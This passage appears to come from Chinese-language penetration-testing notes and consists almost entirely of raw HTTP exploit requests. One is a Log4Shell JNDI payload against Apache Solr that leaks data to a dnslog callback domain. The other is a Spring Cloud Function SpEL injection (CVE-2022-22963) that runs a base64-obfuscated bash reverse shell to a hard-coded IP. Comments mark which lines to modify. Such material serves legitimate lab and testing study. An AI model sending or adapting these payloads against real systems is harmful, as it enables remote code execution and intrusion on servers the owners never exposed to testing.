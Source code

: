 3. ​![image](assets/image-20240923121403-ovyhmgf.png)​

    ```python
    GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.7de9cdad.log.dnslog.biz.} HTTP/1.1
    Host: 47.113.187.190:8983
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Connection: close
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i

    ```

4. ​![image](assets/image-20240923130449-0byba8l.png)​​​

# Spring Cloud Function SpEL 代码注入 （CVE-2022-22963）

请求标头中有 SpEL 表达式注入。`spring.cloud.function.routing-expression`​

```python
POST /functionRouter HTTP/1.1    #这里要修改
Host: 47.113.187.190:8000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Upgrade-Insecure-Requests: 1
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMTMuMTg3LjE5MC85MDAwIDA+JjE=}|{base64,-d}|{bash,-i}")
Content-Type: text/plain   #添加语句
```
